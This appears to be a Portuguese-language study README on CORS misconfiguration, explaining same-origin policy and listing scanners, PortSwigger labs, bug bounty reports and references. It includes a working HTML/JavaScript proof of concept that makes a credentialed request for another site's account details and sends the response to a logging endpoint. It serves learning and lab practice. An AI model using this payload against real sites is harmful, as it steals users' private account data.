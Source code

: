 # CORS Misconfiguration - Fórum Técnico de Privacidade

## O que é o CORS?

O padrão CORS (Cross-origin resource sharing) é necessário porque permite que os servidores especifiquem quem pode acessar seus ativos e quais métodos de solicitação HTTP são permitidos a partir de recursos externos.

Uma política de mesma origem requer que tanto o servidor que solicita um recurso quanto o servidor onde o recurso está localizado usem o mesmo protocolo (http://), nome de domínio (internal-web.com) e a mesma porta (80). Então, se o servidor forçar a política de mesma origem, apenas as páginas da web do mesmo domínio e porta poderão acessar os recursos.

O exemplo que foi utilizado foi o basic origin reflection que pega os dados de um site e redireciona para o site do atacante, com isso os dados pessoais ou sensiveis vão para um servidor diferente do original de forma que se reflete tudo que é acessado por um link especifico.

[Apresentação 06/04/23](https://docs.google.com/presentation/d/1w9SqP6dUJggXe67ZAZvJ8MmZoUFOkiP0_AwaTiurOLA/edit?usp=sharing)

## Ferramentas legais para ser utilizadas 🔧

* [CORS Scanner](https://github.com/chenjj/CORScanner)
* [Nuclei](https://github.com/projectdiscovery/nuclei)
* [Corsy - CORS Misconfiguration Scanner](https://github.com/s0md3v/Corsy)
* [Burp Suite](https://portswigger.net/burp/communitydownload)

## HTML utilizado

```
<html>
    <body>
        <h1>Hello World!</h1>
        <script>
            var xhr = new XMLHttpRequest();
            var url = "https://id-lab.web-security-academy.net"
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE){
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>
    </body>
</html>
```

## Labs para estudo 🔬

* [CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)
* [CORS vulnerability with trusted null origin](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)
* [CORS vulnerability with trusted insecure protocols](https://portswigger.net/web-security/cors/lab-breaking-https-attack)
* [CORS vulnerability with internal network pivot attack](https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack)

## Bug Bounty reports 📈

* [CORS Misconfiguration on www.zomato.com - James Kettle (albinowax)](https://hackerone.com/reports/168574)
* [CORS misconfig | Account Takeover - niche.co - Rohan (nahoragg)](https://hackerone.com/reports/426147)
* [Cross-origin resource sharing misconfig | steal user information - bughunterboy (bughunterboy)](https://hackerone.com/reports/235200)
* [CORS Misconfiguration leading to Private Information Disclosure - sandh0t (sandh0t)](https://hackerone.com/reports/430249)
* [[██████] Cross-origin resource sharing misconfiguration (CORS) - Vadim (jarvis7)](https://hackerone.com/reports/470298)

## References

* [Think Outside the Scope: Advanced CORS Exploitation Techniques - @Sandh0t - May 14 2019](https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397)
* [Exploiting CORS misconfigurations for Bitcoins and bounties - James Kettle | 14 October 2016](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
* [Exploiting Misconfigured CORS (Cross Origin Resource Sharing) - Geekboy - DECEMBER 16, 2016](https://www.geekboy.ninja/blog/exploiting-misconfigured-cors-cross-origin-resource-sharing/)
* [Advanced CORS Exploitation Techniques - Corben Leo - June 16, 2018](https://www.corben.io/advanced-cors-techniques/)
* [PortSwigger Web Security Academy: CORS](https://portswigger.net/web-security/cors)
* [CORS Misconfigurations Explained - Detectify Blog](https://blog.detectify.com/2018/04/26/cors-misconfigurations-explained/)
* [CORS Misconfiguration PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CORS%20Misconfiguration/README.md#exploitation)
